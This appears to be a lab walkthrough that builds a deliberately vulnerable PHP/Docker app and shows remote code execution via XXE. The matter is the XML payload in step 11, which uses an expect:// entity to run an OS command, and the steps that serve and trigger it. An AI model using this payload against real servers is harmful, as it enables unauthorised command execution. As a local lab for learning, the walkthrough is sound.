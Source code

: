 # Remote Code Execution (RCE) via XXE

1. Create [index.php](artifact/rce/src/index.php)
2. Create [upload.php](artifact/rce/src/upload.php)
3. Create [vhost.conf](artifact/rce/src/vhost.conf)
4. Create [php.ini](artifact/rce/php.ini)
5. Create [phpinfo.php](artifact/rce/src/phpinfo.php)
6. Create a [Dockerfile](artifact/rce/Dockerfile) with following contents

    ```bash
    FROM php:7.4.3-apache

    COPY php.ini /usr/local/etc/php/conf.d/docker-php-expect.ini

    RUN apt-get update \
            && apt-get install -y tcl-dev tcl-expect-dev \
            && mkdir -p /tmp/pear/cache \
            && pecl install expect \
            && service apache2 restart

    COPY ./src/index.php app/index.php
    COPY ./src/upload.php app/upload.php
    COPY ./src/vhost.conf /etc/apache2/sites-available/000-default.conf

    RUN mkdir -p app/uploads
    RUN chown -R www-data:www-data app && a2enmod rewrite
    ```

7. Build the Docker image

        docker build --network host -t rce-via-xxe .

    ![Build image](image/rce/2021-03-11_12-30_build_image.png)

8. Start a container

        docker run --rm -it -p 1234:80 rce-via-xxe .

9.  Inspect the running container and identify IP address associated with the container

        docker ps -a
        docker inspect <CONTAINER_ID> | grep \"IPAddress\":

    ![Start container](image/rce/2021-03-11_13-05_start_container.png)

10. Navigate to `http://CONTAINER_IP_ADDRESS/index.php`, e.g., http://172.17.0.2/index.php

    ![UI](image/rce/2021-03-11_13-28_ui.png)

11. Create [expect.xml](artifact/rce/payload/expect.xml) containing following attack payload

    ```xml
    <!DOCTYPE rce [
    <!ENTITY xxe SYSTEM "expect://uname$IFS-a">
    ]>
    <rce>
        <data>&xxe;</data>
    </rce>
    ```

12. Serve the XML  payload (Note: I would be using python3 server for this purpose)

        python3 -m http.server 4444

    ![python3 server](image/rce/2021-03-11_13-25_python3_server.png)

13. Fetch the host IP address by running `ip addr | grep inet` command on host machine

14. Enter the URL to XML payload, in the input box

        http://<HOST_IP_ADDRESS>:4444/expect.xml

    ![Enter URL to XML payload](image/rce/2021-03-11_13-33_enter_xml_url.png)

15. Click on **READ** button to execute OS command on the remote server and fetch its output

    ![](image/rce/2021-03-11_13-37_rce.png)

